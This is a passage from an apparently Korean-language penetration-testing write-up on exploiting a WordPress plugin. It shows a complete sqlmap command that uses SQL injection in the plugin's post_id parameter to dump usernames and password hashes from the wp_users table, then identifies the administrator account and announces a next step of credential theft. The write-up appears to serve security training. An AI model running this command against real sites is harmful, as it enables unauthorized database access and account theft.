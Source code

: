 * 유저 특정 정보 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" --level=3 --dbms=MySQL -C "user_login,user_pass" -T wp_users -D wordpress --random-agent --dump
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183417599-b4f4d3bf-86a3-473c-999e-e6edc4c2287a.jpg" width = 450>
</p>

이렇게 유저에 대한 정보를 가져올 수 있었다. 하지만, 관리자의 계정을 알고 싶기에 user에 대한 메타 데이터인 `wp_usermeta`를 통해 확인해보면 **kisec**이 관리자인 것을 알 수 있다. 

패스워드는 모두 해시 함수를 통해 암호화가 되어 있다. 다음은 이러한 해시 함수 등의 자격 증명을 도용해보겠습니다.